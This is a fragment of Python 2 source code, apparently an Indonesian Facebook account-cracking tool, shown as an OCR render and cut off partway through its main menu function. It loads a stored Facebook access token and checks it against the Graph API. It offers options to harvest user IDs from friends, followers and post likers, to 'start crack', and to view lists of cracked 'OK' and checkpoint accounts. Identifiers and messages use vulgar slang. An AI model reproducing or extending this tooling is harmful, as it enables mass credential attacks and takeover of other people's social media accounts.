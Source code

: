 
### ORANG GANTENG ###
def moch_yayan():
    os.system('clear')
    try:
    	kontol = open('.ppk/.memek.txt', 'r').read()
    except (KeyError,IOError):
        print '\n %s[%s×%s] token invalid'%(N,M,N);time.sleep(2);os.system('rm -rf .memek.txt');yayanxd()
    try:
        req = requests.get('https://graph.facebook.com/me?access_token=%s'%(kontol))
        get = json.loads(req.text)
        nama = get['name']
    except (KeyError,IOError):
        print '\n %s[%s×%s] token invalid'%(N,M,N);time.sleep(2);os.system('rm -rf .ppk/.memek.txt');yayanxd()
    except requests.exceptions.ConnectionError:
        exit('\n\n %s[%s!%s] tidak ada koneksi\n'%(N,M,N))
    os.system('clear')
    print logo
    print '___________________________________________________________\n'
    print ' (\033[0;96m•\033[0m) ACTIVE USER : %s'%(nama)
    print ' (\033[0;96m•\033[0m) IP DEVICE   : %s'%(IP)
    print '___________________________________________________________\n'
    print ' [%s1%s]. Dump id dari teman'%(O,N)
    print ' [%s2%s]. Dump id dari teman publik'%(O,N)
    print ' [%s3%s]. Dump id dari total followers'%(O,N)
    print ' [%s4%s]. Dump id dari like postingan'%(O,N)
    print ' [%s5%s]. Mulai crack'%(O,N)
    print ' [%s6%s]. Check ingformasi akun fb'%(O,N)
    print ' [%s7%s]. Lihat hasil crack'%(O,N)
    print ' [%s8%s]. Settings user agent'%(O,N)
    print ' [%s9%s]. Ingfo %sscript%s'%(O,N,O,N)
    print ' [%s0%s]. logout (%shapus token%s)'%(M,N,M,N)
    pepek = raw_input('\n [*] menu : ')
    if pepek == '':
        print '\n %s[%s×%s] jangan kosong kentod!'%(N,M,N);time.sleep(2);moch_yayan()
    elif pepek in['1','01']:
        teman(kontol)
    elif pepek in['2','02']:
        publik(kontol)
    elif pepek in['3','03']:
        followers(kontol)
    elif pepek in['4','04']:
        postingan(kontol)
    elif pepek in['5','05']:
        __crack__().plerr()
    elif pepek in['6','06']:
        cek_ingfo(kontol)
    elif pepek in['7','07']:
        print '\n %s[%s1%s] Check hasil OK'%(N,O,N)
        print ' %s[%s2%s] Check hasil CP'%(N,O,N)
        memek = raw_input("\n %s[%s?%s] Choose : "%(N,K,N))
        if memek =='':
            print '\n %s[%s×%s] jangan kosong bro '%(N,M,N);time.sleep(1);moch_yayan()
        elif memek in['1','01']:
            try:
                totalok = open("results/OK-%s-%s-%s.txt"%(ha, op, ta)).read().splitlines()
                print("\n %s[%s#%s] --------------------------------------------"%(N,O,N))
                print(" [%s+%s] Hasil %sOK%s pada tanggal %s: %s%s-%s-%s%s total %s: %s%s%s\n"%(H,N,H,N,M,H,ha,op,ta,N,M,H,len(totalok),H))
                os.system("cat results/OK-%s-%s-%s.txt"%(ha, op, ta))
                print("\n %s[%s#%s] --------------------------------------------"%(N,O,N))
                raw_input('\n  [ %sKEMBALI%s ] '%(O,N));moch_yayan()